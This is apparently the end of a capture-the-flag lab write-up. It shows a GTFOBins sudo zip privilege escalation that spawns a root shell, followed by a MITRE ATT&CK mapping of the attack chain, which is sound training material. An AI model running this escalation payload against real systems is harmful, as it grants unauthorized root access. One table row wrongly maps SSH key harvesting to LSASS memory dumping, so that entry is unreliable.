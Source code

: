 

## Executing the Exploit

Using the GTFOBins-provided payload, I created a temporary file, invoked zip with the -T and -TT flags, and injected a shell:

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

### Root Access Achieved

The command successfully spawned a shell as root. I confirmed root-level access with:

```bash
id
cd /root
cat flag.txt
```

<img src="/assets/images/tcm-academy/dev-44.png">

And there it was—the flag:

**Congratz on rooting this box!**

# Detection Opportunities and ATT&CK Matrix

### MITRE ATT&CK Framework Mapping and Mitigation Strategies


To strengthen the defensive posture of environments against similar exploitation paths, it's crucial to align the observed attacker techniques with the MITRE ATT&CK framework. This provides defenders with visibility into how adversaries operate, and what countermeasures can be implemented to reduce risk.


| Technique | Description | Tactic |
|----------|-------------|--------|
| [T1135 - Network Share Discovery](https://attack.mitre.org/techniques/T1135/) | The attacker discovered open NFS shares via `showmount -e`. | Discovery |
| [T1003.001 - OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/) | Credentials were harvested from NFS-mounted directories, including SSH private keys. | Credential Access |
| [T1059.004 - Command and Scripting Interpreter: Unix Shell](https://attack.mitre.org/techniques/T1059/004/) | The attacker used Bash to interact with the system and chain privilege escalation. | Execution |
| [T1003 - Credential Dumping](https://attack.mitre.org/techniques/T1003/) | The attacker extracted SSH private keys and cracked ZIP file passwords with `fcrackzip`. | Credential Access |
| [T1552.001 - Unsecured Credentials: Credentials in Files](https://attack.mitre.org/techniques/T1552/001/) | Bolt CMS configuration files exposed database credentials in plaintext. | Credential Access |
| [T1190 - Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) | LFI vulnerability in BoltWire CMS was exploited to leak sensitive files. | Initial Access |